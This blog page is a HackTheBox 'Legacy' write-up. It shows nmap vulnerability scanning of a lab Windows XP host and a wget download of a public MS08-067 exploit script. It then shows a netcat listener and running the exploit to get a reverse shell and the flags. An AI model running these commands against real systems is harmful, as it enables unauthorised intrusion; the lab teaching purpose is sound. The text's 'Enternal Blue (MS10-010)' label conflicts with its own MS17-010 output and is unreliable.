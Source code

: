```yaml
---
layout: page
title: Legacy
description: Legacy from HackTheBox.
img: 
importance: 4
category: HackTheBox
related_publications: false
---
```


<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/legacy/logo.png" title="HTB Legacy Logo" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
<h2>Link</h2>
<a href="https://app.hackthebox.com/machines/Legacy">Room Link</a>

<br/>
<h2>Process</h2>

<br/>
Thanks for coming back.  Still doing more boxes deep in the retired archives.

Kick-off by running nmap to discover all of the ports running on the server.

{% raw %}
```sh
└──╼ [★]$ nmap -sC -sV -A -O -oN nmap 10.10.10.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 06:51 CST
Nmap scan report for 10.10.10.4
Host is up (0.098s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds

<snip>

```
{% endraw %}

<br />
Run the vulnerability category of nmap scripts to run all of the scripts class as vuln.  Notice that the SMB server is vulnerable to MS08-067.  It is also vulnerabile to Enternal Blue (MS10-010).

{% raw %}
```sh

<snip>

| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

<snip>

```
{% endraw %}

<br />
Google the MS08-067 and find the following exploit on the GitHub.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/legacy/exploit.png" title="Exploit" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://gist.github.com/jrmdev/5881544269408edde11335ea2b5438de">Jrmdev Gist</a>

<br />
Reviewing the exploit.  We need to install nclib for the best experience.  So, intall it.

{% raw %}
```sh
└──╼ [★]$ pip install nclib
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: nclib in /usr/local/lib/python3.11/dist-packages (1.0.5)

```
{% endraw %}

<br />
Download the python script into the local working folder.

{% raw %}
```sh
└──╼ [★]$ wget https://gist.githubusercontent.com/jrmdev/5881544269408edde11335ea2b5438de/raw/000546fe015a92e7837d4a82def7c90020d39b08/ms08-067.py
--2025-01-17 07:02:35--  https://gist.githubusercontent.com/jrmdev/5881544269408edde11335ea2b5438de/raw/000546fe015a92e7837d4a82def7c90020d39b08/ms08-067.py
Resolving gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7272 (7.1K) [text/plain]
Saving to: ‘ms08-067.py’

ms08-067.py                                     100%[=====================================================================================================>]   7.10K  --.-KB/s    in 0s      

2025-01-17 07:02:36 (50.3 MB/s) - ‘ms08-067.py’ saved [7272/7272]

```
{% endraw %}

<br />
Start a netcat listener.

{% raw %}
```sh
└──╼ [★]$ sudo nc -nlvp 443
listening on [any] 443 ...

```
{% endraw %}

<br />
Execute the script.

<ul>
<li>Victim IP</li>
<li>Windows Type</li>
<li>Victim Port</li>
<li>Listener IP</li>
<li>Listener Port</li>
</ul>

{% raw %}
```sh
└──╼ [★]$ python ms08-067.py 10.10.10.4 6 445 10.10.14.29 443
                                                                                       
		@@@@@@@@@@    @@@@@@    @@@@@@@@    @@@@@@              @@@@@@@@     @@@@@@  @@@@@@@@  
		@@@@@@@@@@@  @@@@@@@   @@@@@@@@@@  @@@@@@@@            @@@@@@@@@@   @@@@@@@  @@@@@@@@  
		@@! @@! @@!  !@@       @@!   @@@@  @@!  @@@            @@!   @@@@  !@@            @@!  
		!@! !@! !@!  !@!       !@!  @!@!@  !@!  @!@            !@!  @!@!@  !@!           !@!   
		@!! !!@ @!@  !!@@!!    @!@ @! !@!   !@!!@!  @!@!@!@!@  @!@ @! !@!  !!@@!@!      @!!    
		!@!   ! !@!   !!@!!!   !@!!!  !!!   !!@!!!  !!!@!@!!!  !@!!!  !!!  @!!@!!!!    !!!     
		!!:     !!:       !:!  !!:!   !!!  !!:  !!!            !!:!   !!!  !:!  !:!   !!:      
		:!:     :!:      !:!   :!:    !:!  :!:  !:!            :!:    !:!  :!:  !:!  :!:       
		:::     ::   :::: ::   ::::::: ::  ::::: ::            ::::::: ::  :::: :::   ::       
		 :      :    :: : :     : : :  :    : :  :              : : :  :    :: : :   : :       
																							   
		
Windows XP SP3 English (NX)

[+] Generating shellcode ...
[+] Initiating connection ...
[+] Connected to ncacn_np:10.10.10.4[\pipe\browser]
[+] Setting up listener ...
Exception in thread Thread-2 (listen):
Traceback (most recent call last):
  File "/usr/lib/python3.11/threading.py", line 1038, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.11/threading.py", line 975, in run
    self._target(*self._args, **self._kwargs)
  File "/home/biscottidiskette/my_data/machines/legacy/ms08-067.py", line 61, in listen
    server = TCPServer((self.lhost, self.lport))
             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/dist-packages/nclib/server.py", line 32, in __init__
    self.sock.bind(bindto)
OSError: [Errno 98] Address already in use

```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```sh
└──╼ [★]$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
<redacted>
C:\Documents and Settings\john\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        IP Address. . . . . . . . . . . . : 10.10.10.4
        Subnet Mask . . . . . . . . . . . : 255.255.254.0
        Default Gateway . . . . . . . . . : 10.10.10.2
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```sh
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
<redacted>
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        IP Address. . . . . . . . . . . . : 10.10.10.4
        Subnet Mask . . . . . . . . . . . : 255.255.254.0
        Default Gateway . . . . . . . . . : 10.10.10.2
```
{% endraw %}

<br />
Another one down.  Look forward to seeing you in the next one.
